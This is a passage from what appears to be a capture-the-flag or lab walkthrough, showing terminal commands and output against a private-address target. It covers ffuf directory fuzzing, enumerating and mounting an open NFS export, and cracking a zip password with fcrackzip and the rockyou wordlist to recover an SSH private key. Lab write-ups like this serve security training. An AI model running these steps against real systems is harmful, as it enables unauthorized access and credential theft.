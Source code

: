```jsx
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://172.16.2.130:8080/FUZZ
```

From here, we get dev but its not useful

# Port 2049 scan:

Lets try to view if there are any mounts

```jsx
┌──(wahaj㉿wahaj)-[~]
└─$ showmount -e 172.16.2.130
Export list for 172.16.2.130:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
┌──(wahaj㉿wahaj)-[~]
└─$ sudo mkdir /mnt/dev            
[sudo] password for wahaj:                                                                                                                                                           
┌──(wahaj㉿wahaj)-[~]
└─$ sudo su            
┌──(root㉿wahaj)-[/home/wahaj]
└─#  mount -t nfs 172.16.2.130:/srv/nfs /mnt/dev
                                                                                                                                                               
┌──(root㉿wahaj)-[/home/wahaj]
└─#
┌──(root㉿wahaj)-[/home/wahaj]
└─# cd /mnt/dev
                                                                                                                                                               
┌──(root㉿wahaj)-[/mnt/dev]
└─# ls
save.zip
                                                                                                                                                               
┌──(root㉿wahaj)-[/mnt/dev]
└─# unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password:
```

Since, we dont have the password, lets try to crack it.

┌──(root㉿wahaj)-[/mnt/dev]
└─# fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)

PASSWORD FOUND!!!!: pw == java101

Now we can unzip,

```jsx
┌──(root㉿wahaj)-[/mnt/dev]
└─# unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt
```
